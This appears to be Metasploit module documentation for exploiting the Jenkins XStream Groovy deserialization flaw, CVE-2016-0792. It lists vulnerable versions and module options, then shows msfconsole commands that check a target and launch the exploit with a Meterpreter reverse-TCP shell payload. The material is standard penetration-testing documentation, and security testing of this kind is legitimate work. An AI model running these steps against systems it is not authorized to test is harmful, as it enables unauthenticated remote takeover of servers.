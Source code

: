 Jenkins XStream Groovy classpath Deserialization Vulnerability (CVE-2016-0792)

This module exploits a vulnerability in Jenkins versions older than 1.650 and Jenkins LTS versions older than 1.642.2 which is caused by unsafe deserialization in XStream with Groovy in the classpath, which allows remote arbitrary code execution. The issue affects default installations. Authentication is not required to exploit the vulnerability.

## Vulnerable Application

Jenkins versions < 1.650 and Jenkins LTS versions < 1.642.2

Download Jenkins (Windows) < version 1.650 from here:
http://mirrors.jenkins-ci.org/windows/

Windows Installation: Double click .msi

Download Jenkins LTS (Debian) < version 1.642.2 from here:
https://pkg.jenkins.io/debian-stable/

Download Jenkins (Debian) < version 1.650 from here:
https://pkg.jenkins.io/debian/

Debian Installation: `sudo dpkg --install jenkins_1.642.1_all.deb`

## Options

**TARGETURI**

The base path to Jenkins application `/` by default

**VHOST**

The HTTP server virtual host. You may need to configure this as well, even though it is set as optional.

**The Check Command**

The `jenkins_xstream_deserialize` module comes with a check command that can attempt to check if the remote host is vulnerable or not. To use this, configure the msfconsole similar to the following:

Note: The check only uses `appears to be vulnerable` because it is not possible to differentiate from HTTP headers which Jenkins line (Weekly or LTS) is running.

```
set RHOST [IP]

set TARGETURI [path to Jenkins]
```

```
msf exploit(jenkins_xstream_deserialize) > check

[*] 192.168.1.64:8080 The target appears to be vulnerable..
```

**Exploiting the Host**

After identifying the vulnerability on the target machine, you can try to exploit it. Be sure to set TARGETURI to the correct URI for your application, and the TARGET variable for the appropriate host OS.

```
msf exploit(jenkins_xstream_deserialize) > set RHOST 192.168.1.37
RHOST => 192.168.1.37
msf exploit(jenkins_xstream_deserialize) > set target 3
target => 3
msf exploit(jenkins_xstream_deserialize) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(jenkins_xstream_deserialize) > exploit
```
